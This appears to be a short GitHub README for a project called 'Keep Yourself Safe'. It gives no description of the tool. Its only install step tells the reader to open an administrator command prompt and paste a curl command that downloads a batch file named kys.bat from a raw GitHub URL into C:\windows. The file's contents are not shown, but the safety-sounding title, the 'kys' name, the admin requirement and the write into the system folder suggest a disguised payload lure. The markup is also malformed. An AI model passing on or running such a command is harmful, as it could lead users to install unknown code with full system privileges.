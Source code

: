 # Keep Yourself Safe

## Images:
<img scr="" weight="" height="">

# How to install
<p> You just need open cmd with admin perms, and paste next command<p\>
```curl -o c:\windows\kys.bat https://raw.githubusercontent.com/blozaza/Smth/main/kys.bat```
